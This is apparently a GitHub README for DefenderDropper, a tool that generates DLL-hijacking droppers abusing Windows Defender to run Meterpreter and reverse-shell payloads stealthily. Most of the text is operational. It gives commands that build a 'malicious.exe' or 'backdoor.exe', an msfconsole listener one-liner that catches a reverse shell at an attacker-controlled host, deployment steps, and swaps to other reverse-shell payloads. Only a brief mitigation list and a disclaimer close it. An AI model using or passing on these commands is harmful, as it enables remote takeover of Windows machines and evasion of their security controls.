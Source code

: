 #  DefenderDropper

**Advanced DLL Hijacking Payload Generator Using Windows Defender Vulnerabilities**

![Banner](assets/banner.jpg)
[![Python](https://img.shields.io/badge/Python-3.6%2B-blue)](https://python.org)
[![Metasploit](https://img.shields.io/badge/Metasploit-Compatible-red)](https://metasploit.com)
[![License](https://img.shields.io/badge/License-MIT-green)](LICENSE)

##  Overview

DefenderDropper is an advanced payload generation tool that leverages the DLL hijacking vulnerability in Windows Defender, originally discovered by [TwoSevenOneT](https://github.com/TwoSevenOneT/DefenderWrite). This tool automates the creation of sophisticated payloads that bypass security controls by hijacking legitimate Windows Defender processes.

>  **Inspired by**: [TwoSevenOneT/DefenderWrite](https://github.com/TwoSevenOneT/DefenderWrite)

##  Features

- **Windows Defender Exploitation**: Leverages DLL hijacking in Windows Defender
- **Automated Payload Generation**: Creates ready-to-use droppers and DLLs
- **Metasploit Integration**: Seamless integration with Meterpreter payloads
- **Static Compilation**: No external dependencies required
- **Stealth Execution**: Runs through legitimate system processes
- **Multiple Payload Support**: Various reverse shell and Meterpreter options

##  Quick Start

### Prerequisites

```bash
# Install dependencies on Debian/Kali
sudo apt update
sudo apt install python3 metasploit-framework mingw-w64 -y
```
# Installation
```bash
git clone https://github.com/HackScaleTeam/DefenderDropper.git
cd DefenderDropper
```

# Generate payload
```
python3 defenderdropper.py 10.0.2.147 4443 -o malicious.exe
```
# Start Metasploit listener
```
msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.0.2.147; set LPORT 4443; exploit'
```

# DEPLOYMENT STEPS:

1. Download DefenderWrite.exe if not installed from: https://github.com/TwoSevenOneT/DefenderWrite
2. On Windows VM, place these 3 files in SAME directory:
   - {exe_name}
   - {dll_name}
   - DefenderWrite.exe

3. Start listener: ```msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST {args.LHOST}; set LPORT {args.LPORT}; exploit'```
4. Run {exe_name} as Administrator on Windows VM



# How It Works
Technical Overview
DLL Hijacking: Exploits Windows Defender's vulnerable update process

Process Injection: Injects shellcode into legitimate system processes

Persistence: Leverages trusted Windows components for execution

Evasion: Bypasses common security controls and antivirus solutions

# Attack Flow

![Banner](assets/digram.png)


# File Structure
```
DefenderDropper/
├── defenderdropper.py    # Main payload generator
├── payload.exe           # Generated dropper
├── payload.dll           # Shellcode DLL
├── DefenderWrite.exe     # Core exploit tool
├── README.md
└── LICENSE
```
# Usage Examples
Basic Meterpreter Payload
```bash
python3 defenderdropper.py 192.168.1.100 4444 -o backdoor.exe
```


# Advanced Features
Custom Payloads

You can modify the generate_shellcode() function to use different Metasploit payloads, on defenderdropper.py search for windows/x64/meterpreter_reverse_tcp and replace it with other payloads:

```
"-p", "windows/x64/shell_reverse_tcp",  # Simple reverse shell
"-p", "windows/meterpreter/reverse_https",  # HTTPS payload
"-p", "windows/x64/meterpreter/reverse_tcp",  # Standard Meterpreter
```

# Defense & Mitigation
Detection
Monitor for unusual msiexec.exe child processes

Watch for DLL files in Windows Defender directory

Analyze process hollowing techniques

# Prevention
Keep Windows Defender updated

Implement application whitelisting

Use advanced endpoint protection

Regular security audits

# Legal Disclaimer
This tool is intended for:

 Security research

 Penetration testing with proper authorization

 Educational purposes

 Red team exercises

 Illegal use of this tool is strictly prohibited. The developers are not responsible for any misuse or damage caused by this tool. Always ensure you have explicit permission before testing any systems.

# Contributing
We welcome contributions from the security community! Feel free to:

Fork the repository

Create feature branches

Submit pull requests

Report issues and suggestions

# Special Thanks
TwoSevenOneT for the original DefenderWrite research

The cybersecurity community for continuous improvement

# License
This project is licensed under the MIT License - see the [LICENSE](https://github.com/HackScaleTeam/DefenderDropper/blob/main/LICENSE). file for details.

 Security is a shared responsibility. Use this tool wisely and ethically.

Built with ❤️ for the cybersecurity community. Inspired by groundbreaking research from TwoSevenOneT.
